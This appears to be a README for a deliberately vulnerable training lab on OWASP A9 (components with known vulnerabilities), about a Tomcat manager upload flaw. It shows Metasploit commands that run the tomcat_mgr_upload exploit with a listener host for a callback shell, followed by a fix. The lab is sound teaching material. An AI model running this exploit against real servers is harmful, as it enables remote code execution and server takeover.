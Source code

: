 ### Description

Components, such as libraries, frameworks, and other software modules, run with the same privileges as the application. If a vulnerable component is exploited, such an attack can facilitate serious data loss or server takeover. Applications and APIs using components with known vulnerabilities may undermine application defenses and enable various attacks and impacts.

refers : https://www.owasp.org/index.php/Top_10-2017_A9-Using_Components_with_Known_Vulnerabilities


### Setting env

```console

$ bash run.sh

```
### Issue 

Tomcat is vulnerable for manager authenticated upload code execution

### Exploit 

```console

$ msfconsole -r exploit.rc

msf5 exploit(multi/http/tomcat_mgr_upload) >  set LHOST 192.168.255.1 # Public ip

msf5 exploit(multi/http/tomcat_mgr_upload) >  run

```

refers : https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload

### Fix 

Don't use default passwords and Upgrade tomcat with new version
